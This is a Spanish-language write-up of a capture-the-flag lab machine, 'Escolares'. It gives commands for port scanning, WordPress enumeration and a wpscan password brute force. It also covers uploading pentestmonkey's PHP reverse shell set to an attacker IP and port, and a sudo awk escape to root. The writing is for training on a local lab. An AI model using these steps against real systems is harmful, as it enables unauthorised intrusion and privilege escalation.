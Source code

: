 - Tags: #ps
---
<p>Enlace al laboratorio: <strong><a href="https://mega.nz/file/ZXckGSob#QBn80M3tFNTrKCJwZ1lIh-9Rafx5sdlG3lyCT9FPYes">Maquina Escolares</a></strong></p>

<h2 style="background-color: #211b46; text-align:center">Configuracion Laboratorio:</h2>
```bash
7z x escolares.zip # Desplegamos el laboratorio
sudo bash auto_deploy.sh escolares.tar # Desplegamos el laboratorio
```

<h2 style="background-color: #211b46; text-align:center">Fase Reconocimiento:</h2>
<p>Direccion <strong>IP</strong> del target</p>
```bash
172.17.0.2
```
<p>Lanzamos una traza <strong>ICMP</strong> para determinar si tenemos conectividad con el target</p>
```bash
ping -c 1 172.17.0.2
```
<p>Gracias al <strong>TTL</strong> determinamos que estamos ante una maquina <strong>Linux</strong></p>
```bash
wichSystem.py 172.17.0.2
172.17.0.2 (ttl -> 64): Linux
```

<h2 style="background-color: #211b46; text-align:center">Fase Enumeracion Puertos y Servicios:</h2>
<p>Realizaremos descubrimiento de puertos con nuestra herramienta en python mediante <strong>TCP</strong></p>
```bash
escanerTCP.py -t 172.17.0.2 -p 1-65000
```
<p>Usamos <strong>Nmap</strong> para realizar descubrimiento de puertos</p>
```bash
nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```
<p>Parseamos la informacion mas relevante del escaneo</p>
```bash
extractPorts allPorts
```
<p>Realizamos un escaneo exhaustivo para determinar los <strong style="color: #f6aceb">servicos</strong> y las <strong style="color: #f6aceb">versiones</strong> que corren detras de estos puertos</p>
```bash
nmap -sC -sV -p22,80 172.17.0.2 -oN targeted
```
<p>Servicio: <strong>( 22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0) )</strong> expuesto.</p>

<h2 style="background-color: #211b46; text-align:center">Fase Enumeracion Web:</h2>
<p>Realizamos deteccion de las <strong style="color: #f6aceb">Tecnologias</strong> usadas por este servico</p>
```bash
whatweb http://172.17.0.2 # No reporta nada critico
```
<p>Realizamos enumeracion de rutas con un script</p>
```bash
nmap --script http-enum -p 80 172.17.0.2
# Resultado
/wordpress/: Blog
/info.php: Possible information file
/phpmyadmin/: phpMyAdmin
/wordpress/wp-login.php: Wordpress login page.
```
<p>Ingresando al citio detectamos que posiblemente estamos ante un: <strong style="color: #f6aceb">CMS WordPress</strong></p>
```bash
http://172.17.0.2/
```
<p>Realizamos <strong style="color: #f6aceb">Fuzzing</strong> para enumerar directorios en la web.</p>
```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash
```

```bash
# Resultado
/assets/              (Status: 200) [Size: 1963]
/wordpress/           (Status: 200) [Size: 84176]
/phpmyadmin/          (Status: 200) [Size: 18605]
```
<p>Tenemos un formulario de contacto, que en su codigo fuente podemos encontrar una ruta que antes no habiamos detectado con la enumeracion: <strong style="color: #f6aceb">( /profesores.html )</strong></p>
```bash
http://172.17.0.2/contacto.html # Aqui intentaremos probar si estan sanitizados los inputs
```
<p>Aqui en esta nueva ruta tenemos informacion de posibles usuarios en el sistema<br>Tenemos un posible usuario administrador: <strong style="color: #f6aceb">( luis )</strong></p>

<h4 style="background-color: #00abff; color: #002d2e; text-align:center">Fase Enumeracion WordPress:</h4>
<p>Realizando <strong style="color: #f6aceb">Fuzzing</strong> sobre esta url detectamos lo siguiente:</p>
```bash
gobuster dir -u http://172.17.0.2/wordpress/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,xml,txt,js,html,sh
```

```bash
/wp-content           (Status: 301) [Size: 323] [--> http://172.17.0.2/wordpress/wp-content/]
/wp-login.php         (Status: 200) [Size: 6590]
/license.txt          (Status: 200) [Size: 19915]
/wp-includes          (Status: 301) [Size: 324] [--> http://172.17.0.2/wordpress/wp-includes/]
/readme.html          (Status: 200) [Size: 7401]
/wp-trackback.php     (Status: 200) [Size: 136]
/wp-admin             (Status: 301) [Size: 321] [--> http://172.17.0.2/wordpress/wp-admin/]
/xmlrpc.php           (Status: 405) [Size: 42]
```
<p>Tenemos un codigo de estado: <strong style="color: #f6aceb">302 Redirect</strong> que tendremos que registar en nuestro archivo <strong style="color: #f6aceb">( /etc/hosts )</strong></p>
```bash
/wp-signup.php        (Status: 302) [Size: 0] [--> http://escolares.dl/wordpress/wp-login.php?action=register]
```
<p>Nuestro archivo debera quedar configurado de la siguiente manera: <strong style="color: #f6aceb">( /etc/hosts )</strong></p>
```bash
# Target    Domain
172.17.0.2  escolares.dl
```
<p>Ahora procedemos a ingresar bajo ese dominio:</p>
```bash
http://escolares.dl/ 
http://escolares.dl/wordpress/ # Revisando tenemos otro posible sobrenombre para el administrador: ( luisillo )
```
<p>Ahora podemos realizar una enumeracion exhaustiva con la herramienta: <strong style="color: #f6aceb">wpscan</strong> para el usuario: <strong style="color: #f6aceb">luis</strong> que es el <strong style="color: #f6aceb">administrador</strong><br>Uso de nuestra herramienta en python para generar un diccionario personalizado en base a los datos que le pasemos: <strong style="color: #f6aceb">genPasswd.py</strong></p>
```bash
diccionario_cupp.txt # Tenemos un diccionario personalizado en base a: ( luis / luisillo )
```
<p>Aplicamos ataque de fuerza bruta</p>
```bash
wpscan --url http://escolares.dl/wordpress/ -U luisillo --passwords diccionario_cupp.txt
```
<p>Tenemos credenciales validas para este usuario:</p>
```bash
username: luisillo
password: Luis1981
```
<p>En esta url tendremos que probar si estas credenciales son validas.</p>
```bash
/admin                (Status: 302) [Size: 0] [--> http://escolares.dl/wordpress/wp-admin/]
```
<h2 style="background-color: #211b46; text-align:center">Fase Explotacion:</h2>
<p><strong style="color: #f6aceb">Nota:</strong> Atacaremos el archivo: <strong style="color: #f6aceb">( WP File Manager > Wordpress > uploads )</strong> para poder subir un archivo php que nos otorge un revershell</p>
```bash
git clone https://github.com/pentestmonkey/php-reverse-shell.git --depth=1 # Descargamos el script 
```
<p>Configuramos los siguientes parametros con nuestra direccion <strong style="color: #f6aceb">IP</strong> y el <strong style="color: #f6aceb">Puerto</strong> en el que estaremos en escucha en el archivo: <strong style="color: #f6aceb">php-reverse-shell.php</strong></p>
```bash
$ip = '$IP'; # Aqui nuestra direccion de atacante
$port = $PORT; # Aqui el puerto en escucha
```
<p><strong style="color: #f6aceb">( uploads )</strong> Una ves cargado aqui el archivo, cargamos la url que apunta a este recurso.</p>
```bash
http://172.17.0.2/wordpress/wp-content/uploads/php-reverse-shell.php # Cargando este obtendremos una shell logrando ganar acceso a la maquina
```
<h2 style="background-color: #211b46; text-align:center">Fase Escalada Privilegios:</h2>
<p>Listando el directorio <strong style="color: #f6aceb">( /home )</strong> tendremos lo siguiente:</p>
```bash
ls -l /home
-rwxrwxrwx 1 root     root       23 Jun  8  2024 secret.txt
```

<p>Tenemos credenciales del usuario: <strong style="color: #f6aceb">( luisillo )</strong></p>
```bash
luisillopasswordsecret
```
<p>Migramos de usuario:</p>
```bash
su luisillo # ( luisillopasswordsecret )
```
<p>Listando los permisos de este usuario tenemos lo siguiente:</p>
```bash
sudo -l
```

```bash
User luisillo may run the following commands on 70f7732de030:
    (ALL) NOPASSWD: /usr/bin/awk # Tenemos una via potencial de elevar privilegios
```
<h4 style="background-color: #ff0f46; color: #002d2e; text-align:center">Fase Escalada a Root:</h4>
```bash
sudo -u root /usr/bin/awk 'BEGIN {system("/bin/bash -p")}' # Explotamos el binario
```

```bash
root@70f7732de030:~# whoami
root
```